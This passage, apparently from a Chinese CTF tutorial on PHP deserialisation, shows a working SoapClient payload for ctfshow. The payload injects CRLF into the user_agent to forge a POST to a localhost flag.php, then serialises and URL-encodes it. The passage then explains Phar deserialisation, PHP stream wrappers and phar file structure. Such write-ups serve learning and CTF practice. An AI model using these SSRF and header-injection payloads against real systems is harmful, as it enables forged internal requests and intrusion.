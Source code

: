 ```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$headers = array(
    'X-Forwarded-For: 127.0.0.1,127.0.0.1',
    'UM_distinctid:175648cc09a7ae-050bc162c95347-32667006-13c680-175648cc09b69d'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'y4tacker^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri' => "aaab"));
$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo urlencode($aaa);
```

接下来访问`flag.txt`即可

## Phar反序列化

phar文件本质上是一种压缩文件，会以序列化的形式存储用户自定义的meta-data。当受影响的文件操作函数调用phar文件时，会自动反序列化meta-data内的内容。

### 什么是phar文件

在软件中，PHAR（PHP归档）文件是一种打包格式，通过将许多PHP代码文件和其他资源（例如图像，样式表等）捆绑到一个归档文件中来实现应用程序和库的分发

php通过用户定义和内置的“流包装器”实现复杂的文件处理功能。内置包装器可用于文件系统函数，如(fopen(),copy(),file_exists()和filesize()。 phar://就是一种内置的流包装器。

php中一些常见的流包装器如下：

```php
file:// — 访问本地文件系统，在用文件系统函数时默认就使用该包装器
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```

### phar文件的结构

```php
stub:phar文件的标志，必须以 xxx __HALT_COMPILER();?> 结尾，否则无法识别。xxx可以为自定义内容。
manifest:phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是漏洞利用最核心的地方。
content:被压缩文件的内容
signature (可空):签名，放在末尾。
```
